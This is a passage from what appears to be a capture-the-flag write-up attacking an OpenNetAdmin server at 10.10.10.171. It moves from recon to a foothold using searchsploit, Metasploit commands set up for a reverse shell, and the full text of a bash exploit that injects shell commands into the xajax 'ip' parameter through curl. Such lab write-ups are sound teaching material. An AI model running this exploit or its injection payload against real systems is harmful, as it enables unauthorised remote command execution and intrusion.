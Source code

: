 OK cool, a database user. Also, we now know that it is using MySQL (which I would have assumed anyway, but it's good to know for sure.) That might be helpful later. The username especially.

After reading fully through the [installation and configuration instructions on the git repo](https://github.com/opennetadmin/ona/wiki), it is clear that ona_sys will have UPDATE access to the database, but should already have a password defined. 

Not seeing anything else particularly interesting on this page, it might be time to move on. 

## FOOTHOLD

### First Reverse Shell

Perhaps there is an exploit for this version of **opennetadmin**?

```
searchsploit opennetadmin
```

Oh nice! It looks like this version might be viulnerable. There is an exploit in **msfconsole** too, so let's try that next. First, set a new firewall rule allowing a reverse shell from the target machine to the attacker machine:

```
sudo ufw allow from 10.10.10.171 to any port 4444 proto tcp
```

Next, open up **msfconsole** and search for the exploit:

```
msfconsole
search opennetadmin
use 0
show info
set RHOSTS 10.10.10.171
set LHOST tun0
check
run
```

Unfortunately, even though the exploit passed the check, a reverse shell did not connect. 

However, there was still one other really juicy-looking exploit that was listed on searchsploit. Let's check that out instead. 

On my machine, the exploit is present at `/usr/share/exploitdb/exploits/php/webapps/47691.sh `. Reading though the script, it looks like the script only expects a single parameter, the target URL:

```bash
#!/bin/bash

URL="${1}"
while true;do
 echo -n "$ "; read cmd
 curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```
